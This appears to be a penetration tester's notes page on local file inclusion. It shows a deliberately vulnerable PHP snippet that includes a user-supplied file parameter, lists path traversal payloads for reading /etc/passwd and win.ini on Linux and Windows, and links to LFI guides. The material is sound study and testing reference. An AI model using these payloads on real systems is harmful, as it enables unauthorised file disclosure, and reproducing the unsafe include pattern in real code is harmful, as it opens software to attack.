 # Manual

```php
<?php
$file = $_GET['file'];
if(isset($file)) {
	include($file);
}
?>
```

## Detection

Navigating directories

### Linux

```
../../../etc/passwd
/etc/passwd
```

### Windows

```
/windows/win.ini
\\localhost\c$\windows\win.ini
```

---
## References

### Backlinks

- [[Path Traversal Payloads|Path Traversal Payloads]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xG - Log Files/Manual/Living off the Land|Log Files]]

### Payloads All The Things

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Path Traversal](https://www.hackingarticles.in/comprehensive-guide-on-path-traversal/)

### SecurityIdiots

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

### Bordergate

- [Bordergate: Local File Inclusion (LFI) Attacks](https://www.bordergate.co.uk/local-file-inclusion-attacks/)